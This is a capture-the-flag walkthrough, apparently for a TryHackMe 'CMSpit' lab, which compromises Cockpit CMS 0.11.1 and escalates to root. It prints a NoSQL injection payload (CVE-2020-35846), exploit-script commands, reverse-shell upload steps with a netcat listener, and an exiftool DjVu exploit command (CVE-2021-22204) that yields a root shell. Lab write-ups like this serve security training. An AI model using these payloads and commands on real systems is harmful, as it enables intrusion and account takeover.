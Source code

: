 ### CMSpit
This is a machine that allows you to practise web app hacking and privilege escalation using recent vulnerabilities.

## 🖥️ Initial Recon:
Beginning with a basic nmap scan:
```bash
nmap -A 10.10.116.219
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 11:10 +06
Nmap scan report for 10.10.116.219
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ports 22 and 80 are open; focusing on port 80.

## 🌐 Web Enum:
Visiting port 80 provides us with a login page.

***● What is the name of the Content Management System (CMS) installed on the server?***

The CMS name is displayed on the login page.\
Ans: cockpit

***● What is the version of the Content Management System (CMS) installed on the server?***

The version number can be found in the login page's source code. Right-click the page, open the source code, and examine it carefully.\
Ans: 0.11.1

***● What is the path that allow user enumeration?***

This endpoint in Cockpit CMS 0.11.1 is vulnerable to NoSQL Injection (CVE-2020-35846), allowing attackers to enumerate valid usernames.\
Ans: /auth/check

**Exploitation:**\
There’s both an automated and a manual exploit; let’s try the automated one first.
```bash
searchsploit cockpit 0.11.1
```
you'll find the exploit, now it's time to download and execute.
```bash
searchsploit -m 50185
```
```bash
python3 50185.py -u http://IP/
```
This vulnerability allows extracting password reset tokens, retrieving full user details (including email, hashed password, and user ID), and resetting any user's password without authentication.\
To manually test for vulnerabilities, use Burp Suite to intercept login attempts with arbitrary credentials, then craft an exploit payload based on resources like Exploit-DB.
```bash
{"auth":{"user":{"$func":"var_dump"},"password":"admin"},"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"}
```
This is the one I used

***● What is the path that allows you to change user account passwords?***

Review the exploit file to identify the path for changing the password.\
Ans: /auth/requestreset

***● Compromise the Content Management System (CMS). What is Skidy's email.***

Use the exploit and compromise user skidy\
Ans: skidy@tryhackme.fakemail

***● What is the web flag?***

Compromise the admin account using the exploit, then log in and navigate to Assets. Create a folder and upload a PHP shell from `pentestmonkey`, editing the IP and port settings accordingly.\
Start a netcat listener on your machine using the port specified in the shell. Then, open the uploaded shell and tap the direct link to the asset to establish a connection.\
Go to `/var/www/html/cockpit` and open the web flag file.\
Ans: thm{REDACTED}

***● Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?***

Navigate to the home directory, open the `dbshell` file, and retrieve the flag.\
Ans: thm{REDACTED}

***● What is the user.txt flag?***

Access the `stux` user's credentials in the `dbshell` file, then log in via SSH to read the user flag.\
Ans: thm{REDACTED}

***● What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000***

Run `sudo -l` on stux user and you will find the binary assigned is `/usr/local/bin/exiftool`\
Little bit of researching on it and found the binary `/usr/local/bin/exiftool` is vulnerable to arbitrary code execution due to improper handling of DjVu image files.\
Ans: CVE-2021-22204

***● What is the utility used to create the PoC file?***

An exploit for this vulnerability is available at https://github.com/UNICORDev/exploit-CVE-2021-22204.\
The `exploit-CVE-2021-22204.py` script defines a `dependencies` function containing the following variable.
```bash
deps = {'bzz':"sudo apt install djvulibre-bin",'djvumake':"sudo apt install djvulibre-bin",'exiftool':"sudo apt install exiftool"}
```
The utility's name is in these dependencies.\
Ans: djvumake

***● Escalate your privileges. What is the flag in root.txt?***

A malicious JPG file can be created using the exploit at https://github.com/UNICORDev/exploit-CVE-2021-22204 and then transferred to a target to perform the exploit.\
First, install the dependencies on your machine:
```bash
sudo apt install djvulibre-bin exiftool
```
Then, execute the exploit to generate the malicious .jpg file.
```bash
python3 exploit-CVE-2021-22204.py -c "/bin/bash"
```
Transfer the file to the target by starting a Python server in the malicious image directory and use `wget` on the target machine to download the image.\
Run exiftool on the image to obtain a root shell, then navigate to the root directory and read the root flag.\
Ans: thm{REDACTED}

